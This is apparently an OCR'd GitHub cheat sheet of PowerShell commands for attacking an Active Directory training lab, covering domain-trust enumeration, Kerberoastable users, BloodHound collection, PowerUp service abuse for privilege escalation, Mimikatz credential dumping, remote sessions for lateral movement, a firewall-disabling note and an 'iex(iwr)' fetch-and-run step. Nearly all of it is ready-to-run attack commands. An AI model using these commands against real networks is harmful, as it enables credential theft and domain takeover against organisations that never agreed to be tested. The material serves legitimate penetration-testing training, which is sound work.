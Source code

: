 ```powershell

# Forest
Get-NetDomainTrust
Get-NetForestDomain | Get-NetDomainTrust

# If bidirectional
Get-NetForestDomain -Forest eurocorp.local -Verbose | Get-NetDomainTrust

#Kerberoastable users
Get-NetUser -SPN 

# Bloodhound
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All,LoggedOn

# SQL
Import-Module .\PowerUpSQL.psd1
Get-SQLInstanceDomain
```

## 3. Domain Admin Priv Esc
**NOTE : ONCE A LOCAL ADMINISTRATOR RUN PS as ADMINISTRATOR**
```powershell
# Powerups
Invoke-Allchecks

# Abusing services
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student21'

# Run mimikatz
Invoke-Mimikatz
```

## 4. Domain Admin Priv Esc
```powershell
# Local admin user
Find-LocalAdminAccess -Verbose
Invoke-UserHunter -CheckAccess -Verbose

# Enter session
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$sess
Enter-PSSession -Session $sess

# language mode
$ExecutionContext.SessionState.LanguageMode

# applocker 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Disable FireWall !!!

# Mimikatz
# Modify to make it work without dot sourcing
wget or curl or iex(iwr)
.\Invoke-Mimikatz.ps1
```
